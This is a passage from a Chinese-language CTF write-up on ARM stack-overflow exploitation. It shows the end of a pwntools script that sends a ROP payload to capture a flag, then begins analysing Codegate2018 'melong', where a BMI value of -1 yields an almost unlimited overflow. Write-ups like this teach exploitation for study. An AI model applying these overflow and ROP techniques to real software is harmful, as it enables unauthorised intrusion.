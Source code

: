 ```
        except:
            log.info('When padding is ' + str(length) + ', Fail exit!')
            length = length + 1
            sh.close()
            pass

if __name__ == "__main__":
    padding = 112
    if padding is null:
        padding = get_padding_length()
        log.success('We get padding length is ' + str(get_padding_length()))
    sh = get_sh()
    payload='A' * padding + p32(0x00020904) + p32(0x0006c384) + p32(0x0006c384) + p32(0x000110B4)
    sh.recvuntil('if you want to quitn')
    sh.send('n')
    sh.recvrepeat(0.3)
    sh.sendline(payload)
    flag=get_flag(sh)
    log.success('The flag is '+flag)
    sh.close()
```

### <a class="reference-link" name="%E4%BB%A5Codegate2018_melong%E4%B8%BA%E4%BE%8B"></a>以Codegate2018_melong为例

#### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E5%88%86%E6%9E%90"></a>程序分析

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-02-140236.png)

32位ARM动态链接程序，仅开启NX保护。

题目是一个BMI指数计算和记录程序，write_diary存在明显的栈溢出漏洞，溢出的长度由我们的`BMI指数`决定，此处若我们使得`nbyte`为-1就可以获得一个近乎无限长度的溢出了~

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-02-141235.png)

分析main函数可以得知，我们若想进入write_diary函数，必须使得`BMI_num`不为空，而`BMI_num`由PT函数计算得到，那么就必须保证`v5`不为空，因此，我们必须进入的函数有`Check`、`PT`这两个函数。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-02-142541.png)

那么先分析PT函数

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-02-144420.png)

可以发现，程序没有任何的限制，那么我们直接进入Check函数，跟进流程即可，进入PT函数后直接输入-1即可获取溢出点。

#### <a class="reference-link" name="%E6%9E%84%E9%80%A0payload"></a>构造payload

##### <a class="reference-link" name="Leak%20Libc"></a>Leak Libc

